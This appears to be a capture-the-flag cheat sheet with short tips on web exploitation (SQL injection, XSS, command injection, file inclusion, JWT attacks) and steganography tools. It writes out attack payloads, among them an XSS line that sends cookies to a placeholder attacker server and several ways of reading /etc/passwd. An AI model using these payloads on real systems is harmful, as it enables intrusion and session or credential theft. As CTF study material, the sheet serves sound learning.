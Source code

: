 
## 🎯 Challenge-Specific Tips

### Web Exploitation

**SQL Injection**:
```
✅ Always try: ' OR '1'='1'--
✅ Check error messages (reveals DB type)
✅ Use UNION for data extraction
✅ Time-based when no output (SLEEP, BENCHMARK)
✅ SQLmap is your friend, but understand manual techniques
```

**XSS**:
```
✅ Test in all input fields (including URL params)
✅ Check if input reflected in response
✅ Try basic: <script>alert(1)</script>
✅ Bypass filters: <img src=x onerror=alert(1)>
✅ Cookie stealing: document.location='http://your-server/?c='+document.cookie
```

**Command Injection**:
```
✅ Try all separators: ; | || & && ` $()
✅ Common commands: ls, cat, whoami, id
✅ Bypass spaces: cat</etc/passwd or cat${IFS}/etc/passwd
✅ Find flag: find / -name flag.txt 2>/dev/null
```

**LFI**:
```
✅ Start with: ../../../../etc/passwd
✅ Common files: /etc/passwd, /proc/self/environ, /var/log/apache2/access.log
✅ PHP wrappers: php://filter/convert.base64-encode/resource=index.php
✅ Log poisoning for RCE
```

**JWT**:
```
✅ Decode at jwt.io
✅ Try alg:none attack
✅ Bruteforce weak secrets
✅ Check kid parameter for injection
```

### Digital Forensics

**Steganography**:
```
✅ ALWAYS run strings first!
✅ Check EXIF metadata: exiftool
✅ Extract with binwalk
✅ Steghide for password-protected
✅ Stegsolve for LSB/bit planes
✅ Try zsteg for PNG/BMP
```
